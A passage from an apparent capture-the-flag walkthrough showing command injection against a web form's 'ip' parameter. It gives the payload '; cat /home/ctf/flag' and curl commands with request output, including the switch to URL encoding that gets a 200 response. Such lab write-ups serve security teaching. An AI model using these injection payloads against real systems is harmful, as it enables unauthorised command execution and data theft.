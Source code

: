 ```html
    </form>


</html>
```

The IP is retrieved from the user via this `form`:
```html
<form action="/ping" method="get">
    IP: <input type="text" name="ip"></br>
    <input type="submit" value="Submit">
</form>
```

From here we get the following information:
- upon pressing "Submit", a `GET` request is sent to `/ping`
- the input we provide is set as the value of the key `ip`

So a request URL that gets the flag would look like this:
```
GET /ping?ip=; cat /home/ctf/flag
```

Let's try to do this with `curl`:
```
root@kali:~# curl -v -G -d 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 400 Bad Request
[...]
```

Why does the request fail?
Look at the request:
```
GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
```

The value of the query parameter `ip` contains some forbidden characters: `;`, `/` and space.
We need to send them encoded for URLs.
For this we use the `--data-urlencode` parameter for `curl`:
```
root@kali:~# curl -v -G --data-urlencode 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
[...]
```
